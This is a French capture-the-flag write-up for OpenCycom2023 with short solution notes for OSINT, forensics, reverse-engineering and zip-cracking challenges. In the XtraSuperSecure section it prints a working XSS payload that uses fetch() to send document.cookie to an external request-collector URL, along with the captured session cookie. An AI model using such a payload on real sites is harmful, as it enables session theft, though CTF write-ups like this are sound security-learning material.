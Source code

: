 # OpenCycom2023  
  
## Solutions  
  
### Minuit  
> 300, April 29th, 12:19:13 AM  
  
Chaque touche du piano = une lettre  
  
### Usurpception  
> 500, April 28th, 11:53:34 PM  
  
### Big blue whale  
> 100, April 28th, 11:17:34 PM  
  
J'ai pas capté, mais full utilisation de docker  
  
### Le Secret de la Tielle  
> 200, April 28th, 11:06:07 PM  
  
unzip disk.zip  
utilisation de e2fsck  
puis mount disk.img  
  
### Troubadour - Part5  
> 30, April 28th, 10:31:33 PM  
  
dans google: le café social Vincent lagaffe  
==> https://www.facebook.com/225817917437188/photos/pb.225817917437188.-2207520000../3312156235469992/?type=3&eid=ARClNwLpmDIVKs8kEm1K4HaU5FWj8fCt1PQFzcCx2EzyVQufcnIieGusJwIRH3uZkIMDAx-19McA59rv  
  
### XtraSuperSecure  
> 200, April 28th, 10:01:48 PM  

C'était formulaire pour pouvoir posté un commentaire, Comme le nom du challenge l'indique fallait utilisé un faille XSS.
sur [RequestBin](https://requestbin.com/) j'ai créer un projet pour pouvoir avoir une url ou envoyer les données.
J'ai ensuite envoyé ça dans le formulaire: 
```html
<IMG SRC="jav&#x09;ascript:fetch('https://eodp6vvn6mjjqbf.m.pipedream.net/?' + document.cookie);">
```

est en réponse au bout d'un moment on reçois:
```json
{
  "event": {
    "method": "GET",
    "path": "/",
    "query": {
      "flag": "OPC{b0y_I_l0v3_XSS}; connect.sid=s:8XG6k2A8x2iEnbbD1kD4xUT5KvF_ei3Z.NprtUNmR5jtodObQpm3Abx/Xs4RqrmmLd4cCIdskxyQ"
    },
    "client_ip": "40.66.35.70",
    "url": "https://eodp6vvn6mjjqbf.m.pipedream.net/?flag=OPC{b0y_I_l0v3_XSS};%20connect.sid=s%3A8XG6k2A8x2iEnbbD1kD4xUT5KvF_ei3Z.NprtUNmR5jtodObQpm3Abx%2FXs4RqrmmLd4cCIdskxyQ",
    "headers": {
      "host": "eodp6vvn6mjjqbf.m.pipedream.net",
      "sec-ch-ua": "",
      "sec-ch-ua-mobile": "?0",
      "user-agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/112.0.5615.138 Safari/537.36",
      "sec-ch-ua-platform": "\"\"",
      "accept": "image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8",
      "sec-fetch-site": "cross-site",
      "sec-fetch-mode": "no-cors",
      "sec-fetch-dest": "image",
      "referer": "http://127.0.0.1:3000/",
      "accept-encoding": "gzip, deflate, br",
      "accept-language": "en-US"
    }
  },
  "context": {
    "id": "2P4MqKbROMoJPABF9IeWQXU2NV2",
    "ts": "2023-04-28T20:01:29.418Z",
    "pipeline_id": null,
    "workflow_id": "p_7NCjOZL",
    "deployment_id": "d_JesWrZPW",
    "source_type": "COMPONENT",
    "verified": false,
    "hops": null,
    "test": false,
    "replay": false,
    "owner_id": "o_W7I7Zkg",
    "platform_version": "3.38.3",
    "workflow_name": "RequestBin",
    "resume": null,
    "trace_id": "2P4MqH7RCDeWDm7LWOBabKUQMkk"
  }
}
```
  
### Troubadour - Part4  
> 30, April 28th, 10:00:11 PM  
  
Google: ...,  
==> https://www.midilibre.fr/2020/03/25/sete-la-madone-de-richard-di-rosa-a-le-masque,8818528.php  
on obtient place de l'hospiltalet sète  
  
Apple map:  
==> Le cafe social  
  
### Industrial Secrets - Partie 2  
> 200, April 28th, 9:56:28 PM  
  
dans le terminal:  
ftp (url)  
(name part1)  
(pass part1)  
  
download file  
./gocrackzip dictattack ~/Downloads/Last_clients.zip rockyou.txt  
ouvrir le fichier généerer avec libre office  
  
### Troubadour - Part3  
> 30, April 28th, 9:52:23 PM  
  
meme lien que la part1  
  
### SECURE KEY CHECK3R (Medium)  
> 400, April 28th, 9:48:35 PM  
  
utilisation ghidra  
comprendre comment le fichier est compresser.  
  
### Ca C Cool  
> 400, April 28th, 9:04:37 PM  
  
utilisation ghidra  
little endian -> big endian, et xor les 13 premier avec les 13 dernier  
  
### Industrial Secrets - Partie 1  
> 200, April 28th, 8:32:24 PM  
  
tapper les commandes:  
username admin  
password (celui qui est donne dans lenoncé)  
setValvle (un nombre tres grand)  
set(jsp)Text (une string tres grande)  
get(jsp)FTP  
  
### SECURE KEY CHECK3R (Easy)  
> 300, April 28th, 8:26:10 PM  
  
utilisation ghidra  
avoir 1337 avec une somme des assci du message, en gardant les 3 char qui sont donnée  
  
### Troubadour - Part2  
> 30, April 28th, 7:49:39 PM  
  
meme lien que la part1  
  
### Troubadour - Part1  
> 30, April 28th, 7:48:49 PM  
  
Utilisation de google image  
==> https://www.alamyimages.fr/photo-image-sculpture-la-madone-du-quartier-haut-ou-la-mamma-de-richard-di-rosa-a-sete-languedoc-roussillon-france-86379457.html  
  
### Welcome  
> 10, April 28th, 7:44:19 P  

## Solution de chall que j'ai pas fait

### 19.5:20
Faille à exploiter: aCropalypse
mettre l'image dans https://acropalypse.app/, en choissiant pixel 3

## Mes resultats  
  
### Classement: Top 2  
![Classement](./Result.png)  
![ScoreOverTime](./ScoreoverTime.png)  
  
